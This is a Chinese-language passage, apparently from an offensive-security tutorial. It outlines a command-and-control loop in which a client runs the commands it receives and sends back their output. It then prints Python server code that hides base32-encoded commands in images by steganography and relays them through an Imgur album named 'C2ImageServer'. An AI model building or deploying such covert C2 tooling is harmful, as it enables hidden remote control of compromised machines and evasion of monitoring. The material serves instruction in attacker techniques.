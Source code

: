 1.  客户端通知服务器它已准备就绪。

1.  服务器显示客户端正在等待，并提示用户发送到客户端的命令。

1.  服务器发送一个命令。

1.  服务器等待响应。

1.  客户端接收命令并运行它。

1.  客户端发送命令的输出回到服务器。

1.  服务器接收来自客户端的输出并显示给用户。

1.  步骤 5 到 10 将重复执行，直到发送`quit`命令。

考虑到这些步骤，让我们首先看一下服务器脚本：

```py
from imgurpython import ImgurClient
import StegoText, random, time, ast, base64

def get_input(string):
    ''' Get input from console regardless of python 2 or 3 '''
    try:
        return raw_input(string)
    except:
        return input(string)

def create_command_message(uid, command):
    command = str(base64.b32encode(command.replace('\n','')))
    return "{'uuid':'" + uid + "','command':'" + command + "'}"

def send_command_message(uid, client_os, image_url):
    command = get_input(client_os + "@" + uid + ">")
    steg_path = StegoText.hide_message(image_url, create_command_message(uid, command), "Imgur1.png", True)
    print "Sending command to client ..."
    uploaded = client.upload_from_path(steg_path)
    client.album_add_images(a[0].id, uploaded['id'])

    if command == "quit":
        sys.exit()

    return uploaded['datetime']

def authenticate():
    client_id = '<REPLACE WITH YOUR IMGUR CLIENT ID>'
    client_secret = '<REPLACE WITH YOUR IMGUR CLIENT SECRET>'

    client = ImgurClient(client_id, client_secret)
    authorization_url = client.get_auth_url('pin')

    print("Go to the following URL: {0}".format(authorization_url))
    pin = get_input("Enter pin code: ")

    credentials = client.authorize(pin, 'pin')
    client.set_user_auth(credentials['access_token'], credentials['refresh_token'])

    return client

client = authenticate()
a = client.get_account_albums("C2ImageServer")

imgs = client.get_album_images(a[0].id)
last_message_datetime = imgs[-1].datetime

print "Awaiting client connection ..."
```